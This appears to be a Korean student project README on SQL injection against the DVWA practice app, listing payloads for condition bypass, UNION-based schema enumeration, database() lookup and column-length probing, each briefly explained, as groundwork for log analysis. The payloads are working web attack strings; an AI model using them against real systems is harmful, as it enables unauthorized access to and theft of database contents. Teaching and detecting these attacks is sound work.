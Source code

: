 ##  SQL Injection 구현 및 log 분석
SQL injection: 주민서, 이종학

log 분석: 김현서, 허남정, 오성택

---
###  1. 조건문을 이용한 SQL Injection
이 유형의 payload는 WHERE절의 조건을 항상 참으로 만들어 조건을 우회하는 방법 입니다.
- ' OR 1=1 #
- ' OR TRUE #
- ' OR '1'='1' #
- ' OR '1'='1' LIMIT 1 #
- ' OR TRUE LIMIT 1 #
- ' OR 1=1 LIMIT 5 #

이런 payload는 다음과 같은 쿼리가 있다고 가정했을 때 사용합니다.

SELECT * FROM table WHERE id = 'sql_injection' AND pw = 'sql_injection’

WHERE절의 조건이 항상 참이 되므로 모든 행이 반환됩니다.

---
### 2. UNION SELECT
UNION은 두 개 이상의 SELECT문의 결과를 하나의 결과로 만들어줍니다. 이때 각 SELECT문은 같은 수의 컬럼을 가져야 하며, 각 열의 데이터 타입이 일치해야 합니다. 이러한 특성을 이용해 데이터베이스의 구조나 정보를 알아낼 수 있습니다. 사용된 payload를 확인해보면 컬럼의 길이, 테이블 이름, 컬럼의 데이터를 알아내는데 사용되었습니다.
- ' UNION SELECT 1 #
- ' UNION SELECT 1, 2 #
- ' UNION SELECT 1, 2, 3 #
- ' UNION SELECT 1, table_name FROM information_schema.tables #
- ' UNION SELECT table_name,2 FROM information_schema.tables #
- ' UNION SELECT 1,table_name FROM information_schema.tables WHERE table_schema='dvwa' #
- ' UNION SELECT table_name, 2 FROM information_schema.tables WHERE table_schema='dvwa' #

위 예시의 쿼리문들을 이용해 컬럼의 개수 및 데이터베이스의 정보를 알아내는데 사용할 수 있습니다.


---
### 3. DB 정보 확인
database() 함수는 MySQL에서 현재 연결된 데이터베이스의 이름을 반환합니다. 이 함수를 사용해 현재 사용중인 데이터베이스의 이름을 알아내 데이터베이스의 구조를 파악해 SQL 인젝션 공격을 계획할 수 있게 됩니다.
- ' UNION SELECT 1,database() #`**
- ' UNION SELECT database(), 2 #`**

---
### 4. 컬럼 길이 확인
특정 테이블의 컬럼 이름 길이를 알아내기 위한 payload입니다. information_schema.columns과 LENGTH() 함수를 이용해 특정 테이블의 컬럼 이름의 길이를 추측해 데이터베이스 구조를 탐색합니다.
- `1' AND (SELECT 1 FROM information_schema.columns WHERE table_schema='dvwa' AND table_name='users' AND LENGTH(column_name)=1) #`**
- `1' AND (SELECT 1 FROM information_schema.columns WHERE table_schema='dvwa' AND table_name='users' AND LENGTH(column_name)=2) #`**
- `1' AND (SELECT 1 FROM information_schema.columns WHERE table_schema='dvwa' AND table_name='users' AND LENGTH(column_name)=3) #`**

위 쿼리를 보면 이름의 길이를 순차적으로 증가시키며, 데이터베이스 구조를 탐색하려는 의도임을 알 수 있습니다.
